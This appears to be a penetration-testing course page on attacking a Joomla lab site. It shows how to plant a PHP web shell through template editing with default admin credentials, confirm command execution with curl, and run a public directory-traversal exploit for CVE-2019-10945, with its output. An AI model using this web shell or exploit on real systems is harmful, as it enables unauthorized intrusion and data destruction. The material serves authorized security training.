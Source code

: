 # Attacking Joomla

We now know that we are dealing with a Joomla e-commerce site. If we can gain access, we may be able to land in the client's internal environment and begin enumerating the internal domain environment. Like WordPress and Drupal, Joomla has had its fair share of vulnerabilities against the core application and vulnerable extensions. Furthermore, like the others, it is possible to gain remote code execution if we can log in to the admin backend.

***

## Abusing Built-In Functionality

During the Joomla enumeration phase and the general research hunting for company data, we may come across leaked credentials that we can use for our purposes. Using the credentials that we obtained in the examples from the last section, `admin:admin`, let's log in to the target backend at `http://dev.inlanefreight.local/administrator`. Once logged in, we can see many options available to us. For our purposes, we would like to add a snippet of PHP code to gain RCE. We can do this by customizing a template.

{% hint style="danger" %}
If you receive an error stating "An error has occurred. Call to a member function format() on null" after logging in, navigate to "http://dev.inlanefreight.local/administrator/index.php?option=com\_plugins" and disable the "Quick Icon - PHP Version Check" plugin. This will allow the control panel to display properly.
{% endhint %}

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://dev.inlanefreight.local/administrator/index.php</p></figcaption></figure>

From here, we can click on `Templates` on the bottom left under `Configuration` to pull up the templates menu.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://dev.inlanefreight.local/administrator/index.php?option=com_templates</p></figcaption></figure>

Next, we can click on a template name. Let's choose `protostar` under the `Template` column header. This will bring us to the `Templates: Customise` page.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://dev.inlanefreight.local/administrator/index.php?option=com_templates&#x26;view=template&#x26;id=506</p></figcaption></figure>

Finally, we can click on a page to pull up the page source. It is a good idea to get in the habit of using non-standard file names and parameters for our web shells to not make them easily accessible to a "drive-by" attacker during the assessment. We can also password protect and even limit access down to our source IP address. Also, we must always remember to clean up web shells as soon as we are done with them but still include the file name, file hash, and location in our final report to the client.

Let's choose the `error.php` page. We'll add a PHP one-liner to gain code execution as follows.

```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://dev.inlanefreight.local/administrator/index.php?option=com_templates&#x26;view=template&#x26;id=506&#x26;file=L2Vycm9yLnBocA%3D%3D</p></figcaption></figure>

Once this is in, click on `Save & Close` at the top and confirm code execution using `cURL`.

```shell-session
$ curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

From here, we can upgrade to an interactive reverse shell and begin looking for local privilege escalation vectors or focus on lateral movement within the corporate network. We should be sure, once again, to note down this change for our report appendices and make every effort to remove the PHP snippet from the `error.php` page.

***

## Leveraging Known Vulnerabilities

At the time of writing, there have been [426](https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html) Joomla-related vulnerabilities that received CVEs. However, just because a vulnerability was disclosed and received a CVE does not mean that it is exploitable or a working public PoC exploit is available. Like with WordPress, critical vulnerabilities (such as those remote code execution) that affect Joomla core are rare. Searching a site such as `exploit-db` shows over 1,400 entries for Joomla, with the vast majority being for Joomla extensions.

Let's dig into a Joomla core vulnerability that affects version `3.9.4`, which our target `http://dev.inlanefreight.local/` was found to be running during our enumeration. Checking the Joomla [downloads](https://www.joomla.org/announcements/release-news/5761-joomla-3-9-4-release.html) page, we can see that `3.9.4` was released in March of 2019. Though it is out of date as we are on Joomla `4.0.3` as of September 2021, it is entirely possible to run into this version during an assessment, especially against a large enterprise that may not maintain a proper application inventory and is unaware of its existence.

Researching a bit, we find that this version of Joomla is likely vulnerable to [CVE-2019-10945](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945) which is a directory traversal and authenticated file deletion vulnerability. We can use [this](https://www.exploit-db.com/exploits/46710) exploit script to leverage the vulnerability and list the contents of the webroot and other directories. The python3 version of this same script can be found [here](https://github.com/dpgg101/CVE-2019-10945). We can also use it to delete files (not recommended). This could lead to access to sensitive files such as a configuration file or script holding credentials if we can then access it via the application URL. An attacker could also cause damage by deleting necessary files if the webserver user has the proper permissions.

We can run the script by specifying the `--url`, `--username`, `--password`, and `--dir` flags. As pentesters, this would only be useful to us if the admin login portal is not accessible from the outside since, armed with admin creds, we can gain remote code execution, as we saw above.

```shell-session
$ python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
 
# Exploit Title: Joomla Core (1.5.0 through 3.9.4) - Directory Traversal && Authenticated Arbitrary File Deletion
# Web Site: Haboob.sa
# Email: research@haboob.sa
# Versions: Joomla 1.5.0 through Joomla 3.9.4
# https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945    
 _    _          ____   ____   ____  ____  
| |  | |   /\   |  _ \ / __ \ / __ \|  _ \ 
| |__| |  /  \  | |_) | |  | | |  | | |_) |
|  __  | / /\ \ |  _ <| |  | | |  | |  _ < 
| |  | |/ ____ \| |_) | |__| | |__| | |_) |
|_|  |_/_/    \_\____/ \____/ \____/|____/ 
                                                                       


administrator
bin
cache
cli
components
images
includes
language
layouts
libraries
media
modules
plugins
templates
tmp
LICENSE.txt
README.txt
configuration.php
htaccess.txt
index.php
robots.txt
web.config.txt
```

***

## Moving On

Next, let's take a look at Drupal, which, while it holds a much smaller share of the CMS market, is still used by companies worldwide.
